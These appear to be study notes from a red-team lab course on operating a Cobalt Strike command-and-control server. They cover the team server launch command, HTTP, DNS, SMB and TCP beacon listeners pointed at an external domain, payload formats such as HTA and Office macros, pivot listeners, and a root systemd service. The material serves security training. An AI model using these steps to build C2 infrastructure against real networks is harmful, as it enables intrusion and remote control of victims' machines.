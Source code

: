 # Command & Control

## Starting the Team Server

1. Log into Attacker Desktop
2. Right-click on Terminal icon in the taskbar
3. Select Team Server (SSH)
4. (Opt) tmux session
5. ```cd cobaltstrike```
6. ```sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile```
7. Once SHA of teamserver appears, run Cobalt Strike client from the taskbar
8. Connect (confirm fingerprint first time)

## Listener Management

Only have to set these up once in the lab. Use nickelviper.com for stager, which points to 10.10.5.50.

* Egress listeners (Cobalt Strike > Listeners) - allow Beacon to communicate outside of the target network to team server
  * HTTP - allows Beacon to send and receive C2 messages over HTTP GET and/or POST requests (check with ```sudo ss -lntp```)
  * DNS - C2 messages over several lookup/response types like A, AAAA and TXT. TXT used by default (holds the most amount of data). Use pics.nickelviper.com for stager. (Check with ```dig @ns1.nickelviper.com test.pics.nickelviper.com +short```; should give 0.0.0.0.)
  * P2P - chain multiple Beacons together in parent/child relationships to reduce overall host traffic or to allow beacons on hosts unable to egress data out of network. Link child Beacon to an egress HTTP/DNS Beacon, and traffic from the child is sent to the parent, which sends to the team server.
    * SMB - starts a new named pipe server and listens for an incoming connection. This pipe is available both locally and remotely. (Use a name that will blend with existing pipes -- ```PS C:\> ls \\.\pipe\``` shows them.)
    * Raw TCP - binds and listens on the specified port number.

Create all listeners:
| name | payload | host | port | beacons | profile |
|--|--|--|--|--|--|
| dns | windows/beacon_dns/reverse_dns_txt | pics.nickelviper.com | 53 | pics.nickelviper.com | default |
| http | windows/beacon_dns/reverse_http | nickelviper.com | 80 | nickelviper.com | default |
| smb | windows/beacon_bind_pipe | | TSVCPIPE-abcd... | | |
| tcp | windows/beacon_bind_tcp | | 4444 | 0.0.0.0 | |
| tcp-loc | windows/beacon_bind_tcp | | 4444 | 127.0.0.1 | |

## Generating Payloads

Use Payloads menu to generate different kinds of payloads:
| | | |
|--|--|--|
| HTML App | .hta file delivered through browser via social engineering | x86, only for egress listeners |
| MS Office Macro | VBA that can be dropped into a macro-enabled MS Word or Excel file | x86/x64, only for egress listeners |
| Stager Payload Generator | Payload stager in C, C#, PowerShell, Python, VBA, etc.; for custom payloads/exploits | x86/x64, only for egress listeners |
| Stageless Payload Generator | Stageless payloads rather than stagers. Can specify an exit function (process/thread) | Also for P2P listeners |
| Windows Stager Payload | Pre-compiled stager as an EXE, Service EXE, or DLL. | |
| Windows Stageless Payload | Pre-compiled stageless payload as an EXE, Service EXE, DLL, shellcode, or PowerShell | P2P listeners |
| Windows Stageless Generate All Payloads | Every stageless payload variant for every listener | x86/x64 |

Save payloads to C:\Payloads (Defender has an exception for that directory).

## Interacting with Beacon

1. Launch a beacon on the Attacker Desktop
2. Change beacon's sleep cycle if desired, e.g. ```sleep 5``` (_but watch how noisy it can get -- not a prob in lab network_)
3. Confirm beacon in Wireshark; filter for http, look for GET request with 200 response (use Follow > HTTP Stream) -- how traffic appears can be customised in the Malleable C2 profile
4. Check control by using some commands, like ```pwd```, ```dir```, ```whoami```, etc.
5. DNS beacons do not automatically send metadata; use ```checkin``` command

## Pivot Listeners

A PL must be created on an existing beacon, and works in reverse. 

1. Right-click on a Beacon and select Pivoting > Listener
2. Host and port will be hard-coded into the listener -- leave as-is
3. Check with ```netstat```, should see e.g:

   ``` TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING       6920```

Can generate payloads for this listener and use commands e.g. ```spawn```, ```elevate```, and ```jump```.

## Running as a Service

For autostart when machine boots, so you can run CS client right away:
* ```sudo vim /etc/systemd/system/teamserver.service```
* Paste:
  ```
  [Unit]
  Description=Cobalt Strike Team Server
  After=network.target
  StartLimitIntervalSec=0
  
  [Service]
  Type=simple
  Restart=always
  RestartSec=1
  User=root
  WorkingDirectory=/home/attacker/cobaltstrike
  ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
  
  [Install]
  WantedBy=multi-user.target
  ```
* ```sudo systemctl daemon-reload```
* ```sudo systemctl status teamserver.service``` // will be inactive (dead)
* ```sudo systemctl start teamserver.service```
* ```sudo systemctl status teamserver.service``` // will be active (running)
* ```sudo systemctl enable teamserver.service```

